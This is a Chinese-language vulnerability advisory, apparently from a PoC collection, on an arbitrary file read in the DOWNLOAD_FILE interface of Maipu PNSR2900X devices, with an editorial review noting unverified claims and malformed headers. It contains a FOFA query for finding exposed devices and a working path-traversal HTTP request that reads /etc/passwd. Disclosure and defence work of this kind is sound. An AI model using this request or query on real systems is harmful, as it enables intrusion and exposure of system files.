

# 迈普pnsr2900x DOWNLOAD_FILE 任意文件读取漏洞 

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Maipu PNSR2900X
- 本文讨论：DOWNLOAD_FILE路径穿越
- 版本、权限与配置前提：未列固件/认证，原始未规范化路径
- 资料类型：路径读取PoC预警；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- User-Agent与Accept-Encoding黏连、Connection重复；浏览器/工具规范化路径条件未讲
- 已知在野无来源；fofa残缺，无固定版本
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 路径规范化、文件权限及在野状态待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

迈普pnsr2900x系统接口DOWNLOAD_FILE任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

# 影响版本

迈普pnsr2900x系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/assets/css/ui-dialog.css"&& body="/form/formUserLogin"

POC/EXP：


```http
GET /DOWNLOAD_FILE/../../../../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Connection: keep-alive
```





# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
